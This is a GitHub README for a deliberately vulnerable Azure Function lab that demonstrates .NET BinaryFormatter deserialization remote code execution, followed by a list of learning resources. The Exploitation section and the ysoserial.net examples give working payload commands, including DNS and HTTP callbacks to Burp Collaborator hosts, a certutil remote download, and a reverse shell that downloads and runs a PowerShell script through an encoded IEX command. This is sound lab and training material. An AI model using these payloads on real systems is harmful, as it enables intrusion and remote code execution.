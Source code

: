 ## DeserialKiller

Azure Function lab for .NET Deserialization RCE demonstration.

Adapted from this blog post which featured an MVC app, made it a one a click deploy

https://sekurity.dev/insecure-deserialization-using-binaryformatter-resulting-in-rce/

Included is "TriggerWarning.cs", it will log the last 10 requests in memory and display them back as a queue. Useful for debugging or catching a callback like Burp Collaborator I guess. Just create another function and paste in that code.

WARNING: DO NOT DEPLOY THIS TO AZURE. Should never run outside of a controlled environment. This is literally a an insecure azure application. Functions can (and in this case should) be run locally to develop them. Just run them both and craft your payloads. DO NOT DEPLOY THIS TO AZURE.

So you're going to deploy it to Azure. Kinda wanted to see if you give it access to a keyvault, can you figure out how to READ the keyvault from inside?  Deploy an AzureVM, isolate it to just your IP. Then go to the network settings of the deployed function app and isolate it with Network Security Groups to just that IP. Then see what you can do as the application.  

## Exploitation
Payload

```powershell	
.\ysoserial.exe -f BinaryFormatter -g DataSet -c "Invoke-WebRequest http://localhost:7298/api/triggerwarning -Method POST -Body "we in here" -ContentType 'application/json' -UseBasicParsing" -t
```



Plan to add other routes for other Deserialization labs, but for now, here are the bklog posts I'm going to be reading 

## .Net Deserialization Resources
https://medium.com/r3d-buck3t/insecure-deserialization-with-json-net-c70139af011a
https://knowledge-base.secureflag.com/vulnerabilities/unsafe_deserialization/unsafe_deserialization__net.html
https://book.hacktricks.xyz/pentesting-web/deserialization
https://book.hacktricks.xyz/pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net
https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter
https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-knowing-the-secret

## .Net Deserialziation White-Paper - JSON.net
https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf

## Initial Access payload generation and WDAC Bypass using .net Deserialization
https://labs.nettitude.com/blog/introducing-aladdin/
https://github.com/nettitude/Aladdin

## Ysoserial.Net Examples
https://github.com/pwntester/ysoserial.net

```powershell
#Send ping
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "ping -n 5 10.10.14.44" -o base64

#Timing
#I tried using ping and timeout but there wasn't any difference in the response timing from the web server

#DNS/HTTP request
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "nslookup sb7jkgm6onw1ymw0867mzm2r0i68ux.burpcollaborator.net" -o base64
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "certutil -urlcache -split -f http://rfaqfsze4tl7hhkt5jtp53a1fsli97.burpcollaborator.net/a a" -o base64

#Reverse shell
#Create shell command in linux
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.44/shell.ps1')" | iconv  -t UTF-16LE | base64 -w0
#Create exploit using the created B64 shellcode
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADQANAAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=" -o base64
```

## Web Lab - Portswigger Deserializtion
https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization
